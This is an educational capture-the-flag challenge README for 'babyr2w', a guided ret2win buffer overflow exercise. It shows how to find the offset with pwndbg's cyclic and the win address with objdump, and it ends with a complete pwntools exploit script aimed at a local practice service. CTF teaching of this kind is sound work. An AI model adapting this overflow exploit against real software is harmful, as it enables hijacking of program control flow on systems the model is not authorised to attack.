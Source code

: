 # Challenge Name
babyr2w

## Learning Objective
Extended from BOF. Learn to find and rewrite return address to another function

## Description 
We want to win! But... how to win?

## Difficulty:
Guided (easy)

## Guide
In the code, you can see that `win` function is never called. We want to call this function as it contains the flag.

If you recall your basic buffer overflow practice, we overflowed the **saved base pointer address** to cause a segmentation fault. This time on top of that, we want to overwrite the return address.


We will perform a technique called **ret2win**. The idea is overflow and rewrite the **return address** on the stack to another function

#### What we need to do:
1. Find the exact offset before it overflows
2. Find return address of `win` address

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `faaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address.

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

#### To find the win address:
```shell
$> objdump -d chall | grep win
0000000000400797 <win>:
```

Now we can put our solve script together!

#### Final Solution
```py
from pwn import *

p = remote("127.0.0.1", 8881)

# address of win function
win = p64(0x400797)

# payload 
payload = b'A' * 40
payload += win

# send payload
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win

## Attached Files
- chall.c
- chall

## Resources
- https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win

## Flag
TBD